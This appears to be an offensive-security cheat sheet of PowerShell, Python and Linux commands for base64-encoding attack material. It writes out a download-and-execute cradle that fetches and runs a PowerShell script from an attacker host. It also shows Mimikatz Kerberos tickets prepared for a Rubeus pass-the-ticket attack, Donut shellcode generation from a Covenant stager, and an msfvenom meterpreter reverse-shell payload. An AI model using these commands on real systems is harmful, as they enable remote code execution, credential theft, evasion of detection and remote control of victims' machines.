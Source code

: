 ```
#As A String
$OriginalCommand = "SG9va2VkIG9uIHBob25pY3Mgd29ya2VkIGZvciBtZQo=" ;
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($OriginalCommand));
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($OriginalCommand)) | Out-File -Encoding "ASCII" base64_out.txt;
```

```
$OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('http://10.8.0.166:80/download/file.ps1')"
[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))
```

```
#Decode
[System.Text.Encoding]::unicode.GetString([System.Convert]::FromBase64String(""))
```

### Convert this ticket to a base64 encoded
```
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\Commando\Desktop\Mimikatz_x64\zps.kirbi"))
Rubeus ptt /ticket:[...snip...]
```

```
#!/usr/bin/env python
import base64
decode = raw_input (" Enter Your Encoded Data to be decode: ")
output = base64.b64decode(decode)
print (output)
f = open('base64_out.txt', 'w')
f.write(output)
f.close()
```

### Donut
Donut is a shellcode generation tool that creates position-independant shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes.
```
donut.exe -f Downloads\GruntStager.exe -o D:\Tools\GruntStager.bin
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\Pivot Point\Desktop\shellcode.bin"))

```

### From Linux
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.174.134 LPORT=53 -f raw > shellcode.bin
xxd -i shellcode.bin 
cat shellcode.bin |base64 -w 0
```
